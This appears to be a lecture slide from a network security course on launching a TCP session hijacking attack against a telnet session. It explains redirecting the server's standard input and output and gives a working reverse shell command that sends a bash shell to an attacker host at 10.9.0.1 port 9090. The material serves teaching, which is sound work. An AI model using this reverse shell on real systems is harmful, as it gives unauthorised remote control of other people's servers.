

# Launch the TCP Session Hijacking Attack
But this still can not be called hijacking!
Desired:  take over the telnet client role and interact with server
Technically, this means:
	1. we can type the input to server from our machine
	2. obtain the output of server from our machine
More precisely, we want to
	► redirect the server’s standard input and standard output
                   to our machine
This is the command:
 	/bin/bash -i  >/dev/tcp/10.9.0.1/9090     2>&1      0<&1
(2 for standard error output, 1 for standard output, 0 for standard input)